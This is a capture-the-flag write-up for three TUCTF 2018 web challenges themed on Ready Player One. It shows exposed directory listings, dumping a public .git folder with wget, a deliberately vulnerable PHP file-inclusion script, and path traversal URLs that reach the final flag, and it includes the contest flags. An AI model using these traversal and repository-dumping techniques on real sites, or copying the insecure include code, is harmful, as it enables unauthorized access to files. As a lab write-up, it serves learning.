

TUCTF 2018 — "Easter egg" challenges
====================================

A series of three web challenges, themed around the book _Ready Player One_.

The Copper Gate
---------------

> How did I end up here? - Joker  
> http://18.191.227.167/

We see what looks like a "placeholder" page, with a video referencing the book embedded on the page. The text reads:

> Please return at a later date for more content!

Which I took to be a hint that I needed to somehow make a request "from the future" to get a different version of the page. In fact, it was much simpler: an image included on the page was stored in the `/images` directory.  
Navigating there, it turns out that directory listing is enabled, and there's a text file with instructions pointing us to "the development area":

http://18.191.227.167/images/sitenotes.txt
http://18.191.227.167/devvvvv/home.html

> Welcome to the development area
> You may be asking yourself how you got here... Truth be told I have no idea either. You may want to figure that out.
>
> Moving on, though.
>
> I hope you have as much fun solving this as I did writing it.
> A big thank you to Warren Robinett for beginning this fun tradition.
> In the spirit of the classic video game easter egg, I have hidden a series of challenges throughout this site. In the spirit of my favorite book, Ready Player One.
>
> (...)
> 
> Each step of the hunt will award points respective to the challenge. The final step and to the egg is the crystal flag. Thank you to everyone for your participation. And now for the introduction.
>
> **Introductions**
>
> Three hidden flags open three secret gates.  
> Wherein the challenger will be tested for worthy traits.  
> And those with the skill to solve what I create  
> Will reach The End, where the points await  
>
> **The First Challenge**  
> 
> The Copper Flag awaits your attention  
> Somewhere in an old direction  
> But you have much to review  
> If you hope to accrue  
> The points protected by this section.  


"An old direction" seems to point to a directory that we've already explored before. "Protected" made me think of `.htaccess`, but I got a 403 when trying to read it.

With "Preserve network logs" enabled in the Chrome dev console, I used the same trick as before and simply navigated up to `/devvvvv`, trying to see if we could get a directory listing.

Instead, `devvvvv/index.html` contained a `meta` tag redirecting us to `devvvvv/home.html`... but also a link to flag! (Base64 encoded)

```
http://18.191.227.167/youfoundthejadegate/gate.html
VFVDVEZ7VzNsYzBtM19UMF9UaDNfMDQ1MTVfVGgzX0MwcHAzcl9LM3l9Cg==
TUCTF{W3lc0m3_T0_Th3_04515_Th3_C0pp3r_K3y}
```

---

The Jade Gate
-------------

Challenge description:

> Gotta make sure I log my changes. - Joker  
> http://18.191.227.167/

On the page where we found the copper flag, there were extra instructions:

> **The Jade Flag**
>
> The updates conceal the Jade Flag  
> in a backup long neglected  
> But you can only retrace your steps  
> once the logs are all collected  

Okay, so there are some evocative keywords there:

- "backup": perhaps a zip with the source code / database dump is stored somewhere
- "logs": server & access logs? PHP stores logs in a default location, so perhaps there's a directory traversal exploit that would allow us to get them. I tried for a little bit, but no luck.
- "log my changes": wait, that sounds a lot like version control!

http://18.191.227.167/.git/  
Bingo! We get the directory listing for a typical git repository. Let's download it for convenience:

```
wget -r http://18.191.227.167/.git/
```

Looking at the changes from each commit, after reading through a few funny / trollish messages, we find the Jade flag:

```
http://18.191.227.167/youfoundthejadegate/gate.html
TUCTF{S0_Th1s_D035n7_533m_l1k3_175_f41r_8u7_wh0_3v3r_s41d_l1f3_15_f41r?}
```

---

The Crystal Gate
-------------

> I don't wanna go anywhere.  
> http://18.191.227.167/

Continuing to analyze the Git repository's content, we see _staged_, but non-committed changes:



```
<?php
echo 'Note: Only used for access management and to check user info.';
echo '<br>';
echo 'Note2: I can\'t seem to remember the param. It\'s "file"';
echo '<br>';

if (isset($_GET['file'])) {
    $file = $_GET['file'];
    if (strpos($file, '/etc/passwd') == true) {
        include($file);
    }
    elseif (strpos($file, '.ssh') == true) {
        include($file);
        echo '<br>';
        echo 'Probably shouldn\'t put my own key in my own authorized keys, but oh well.';
    }
}
?>
```

That certainly looks exploitable!  
For one, `strpos` only checks that the substring is _somewhere_ in `$file`.  
After trying different values of `$file`, I realized that the code seen in the repo wasn't exactly what's running on the server. The exploit is even easier, allowing inclusion of _any_ file:

```
http://18.191.227.167/crystalsfordays/traversethebridge.php?file=..
http://18.191.227.167/crystalsfordays/traversethebridge.php?file=../..
http://18.191.227.167/crystalsfordays/traversethebridge.php?file=../../TheEgg.html
```

And we got the flag!

```
Note: Only used for access management and to check user info.
<br>Note2: I can't seem to remember the param. It's "file"
<br>
<html>
    <p>THE END</p>
    <p>Congratulations! You have discovered the crystal key and unlocked the egg. Thank you for your participation in this competition and I hope you enjoyed the trip, as well as learned a few things in the process.</p>
    <p>- Joker</p>
    <p>TUCTF{3_15_4_M4G1C_NUMB3R_7H3_crys74L_k3Y_15_y0ur5!}</p>
</html>
```
